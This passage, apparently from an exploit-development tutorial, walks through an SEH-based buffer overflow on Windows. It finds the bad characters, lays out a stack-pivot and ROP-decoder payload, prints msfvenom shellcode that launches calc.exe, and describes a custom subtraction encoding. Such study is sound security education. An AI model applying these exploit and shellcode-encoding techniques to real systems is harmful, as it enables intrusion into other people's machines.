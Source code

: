 To discover bad bytes we send all bytes from 0x00 – 0xFF and remove all the ones where the binary does not crash anymore or those that get mangled. This results in the following bad chars:

```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x20\x2F\x5C
```

Since it will be pretty difficult to craft shellcode that does not contain any of these we will go with the ROP shellcode decoder as just mentioned. Before we dive into that, let’s look at the structure the exploit is going to have. Since we are dealing with some space restrictions we have to be careful about the layout.

```
LST | Skeleton + RopNops + Decoder + RopNops | NSEH (dummy) + SEH (stack pivot) | RopNops + RopWriteProcessMemorySetup + Shellcode + Padding |
    | ----------------1036-------------------|----------------8-----------------|------------------------ ~2200 -----------------------------|
```

Note that even though we send 4000 Bytes, not all of them will end up on the stack. We are running into a page boundary which will cut it more closer to 3200-3300 Bytes.

## Shellcode Encoding & Decoding

The first problem we are going to tackle is the Shellcode encoding & decoding. Our shellcode for this post will be the following one:

```
# msfvenom -p windows/exec CMD="calc.exe" -a x86 -f python -v sc -e none
sc =  b""
sc += b"\x90"*0x30
sc += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
sc += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
sc += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
sc += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
sc += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
sc += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
sc += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
sc += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
sc += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
sc += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
sc += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
sc += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
sc += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
sc += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
sc += b"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
```

As you can see we did not use any encoder since we will be doing that ourselves. Before we send anything, we do our custom encoding and since they are not that many bad chars I decided to subtract 0x55 from every bad character. The bad characters were all rather small so subtracting a value like 0x55 brings them to byte values that should be safe. If you have more bad characters you could also do an individual offset for every character or substition tables.

We iterate over the shellcode and identify the indices of all bad characters. Then we substract the offset (here 0x55) from all bad chars so they become "safe", e.g.: `0x20 - 0x55 = 0xcb`.
